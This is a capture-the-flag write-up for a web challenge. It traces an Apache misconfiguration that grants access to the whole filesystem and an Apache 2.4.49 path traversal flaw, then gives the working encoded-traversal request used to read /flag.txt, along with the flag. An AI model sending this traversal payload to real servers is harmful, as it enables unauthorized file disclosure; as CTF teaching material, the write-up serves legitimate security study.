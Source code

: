 # BLT

## Description

Our company provides services for the development of the most modern software.

Can you check our landing page for vulnerabilities?

Here's our website: **`164.90.201.196:8080/`**

{% file src="../../.gitbook/assets/blt_a559171c04.zip" %}

## Solution

Taking a look at the Dockerfile, we quickly see a misconfiguration in the `apache.conf` file.

```docker
RUN echo "<VirtualHost *:80>\n \
DocumentRoot /var/www/html/\n \
<Directory \"/\">\n \
 Require all granted\n \
</Directory>\n \
</VirtualHost>" > /usr/local/apache2/conf/apache.conf
```

Here, `<Directory />` refers to the _filesystem_ directory, not the web root. Hence, this configuration allows access to any file on the filesystem.

Taking a closer look a the server responses showed that the Apache server is on version 2.4.49, and vulnerable to a recent path traversal zero-day.

![](<../../.gitbook/assets/image (80).png>)

`GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt HTTP/1.1` allows us to get the flag at `/flag.txt`.

The flag is `spbctf{th3_lat3st_d03s_n0t_m3an_s3cur3}`
